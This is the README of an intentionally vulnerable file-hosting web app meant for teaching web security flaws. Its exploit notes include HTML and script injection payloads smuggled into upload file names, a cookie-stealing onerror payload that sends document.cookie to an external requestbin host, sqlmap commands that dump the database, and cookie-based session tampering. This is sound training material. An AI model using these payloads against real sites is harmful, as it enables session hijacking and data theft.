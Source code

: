 # Vulnerable Filehoster

A web app to showcase some typical web application flaws.

**WARNING**: This software is for educational purposes only!

## Included issues

### Guessable IDs

Vulnerable in this example are:
* UserIds
  * Easily discover other users
* UploadIds
  * Download the stuff other people uploaded
  * Delete stuff you do not own

### HTML Injection
* eMail on registration form
  ```
  <h1 style="color: pink">some@user.com</h1>
  ```
* uploaded file name
  ```
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Ch1%3EA%20weird%20filename%3C%2Fh2%3E" --cookie "loggedInUserId=2"
  ```
* Script injection via `img` tag and `onerror` attribute
  ```
  # Bad payload:
  <img src="missing.jpg" onerror="alert('Some JavaScript just got executed...')" />

  # URLEncode and use payload as filename-parameter when uploading a file:
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Cimg%20src%3D%22missing.jpg%22%20onerror%3D%22alert%28%27Some%20JavaScript%20just%20got%20executed...%27%29%22%20%2F%3E" --cookie "loggedInUserId=12"
  ```
  
* Cookie extraction via ScriptInjection and https://requestbin.com
  ```
  # Bad Payload:
  <img src="missing.jpg" onerror="fetch('https://endlj4fkdulat.x.pipedream.net?cookies=' + document.cookie)" />

  # Reusing the HTML Injection in the uploaded file name:
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Cimg%20src%3D%22missing.jpg%22%20onerror%3D%22fetch%28%27https%3A%2F%2Fendlj4fkdulat.x.pipedream.net%3Fcookies%3D%27%20%2B%20document.cookie%29%22%20%2F%3E" --cookie "loggedInUserId=12"
  ```

### SQL Injection

The login form allows funny SQL commands. In order to execute an SQL Injection attack, you need to know a Username and Password. But since you can register accounts yourself, this is not a big issue. ;)

```
sqlmap --flush-session -u http://localhost:3000/login.html --forms --dump-all --ignore-code 401
```

When asked, provide the following post data: `email=<YOUR-EMAIL>*&password=<YOUR-PASSWORD>`
*Important: The aterisk (*) after `<YOUR-EMAIL>` is a special character giving sqlmap a hint, what is injectable!

Alternatively hit the API login endpoint directly:

```
sqlmap --flush-session -u http://localhost:3000/api/login --data "email=<YOUR-EMAIL>*&password=<YOUR-PASSWORD>" --dump-all --ignore-code 401
```

### Password Storage

* Passwords are stored as md5 hashes, see https://md5.gromweb.com
* And for the right way: [OWASP Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)

### Session Tampering / Hijacking

* Upload for someone else?
    * curl --cookie loggedInUserId=4711
* Become an admin?
    * /api/admin/cleanup

## TODO / Ideas

* XSS CrossSiteScripting
* CSRF CrossSiteRequestForgery
* RemoteCodeExecution / RemoteShell
* TimingAttacks
* What else from OWASP Top 10?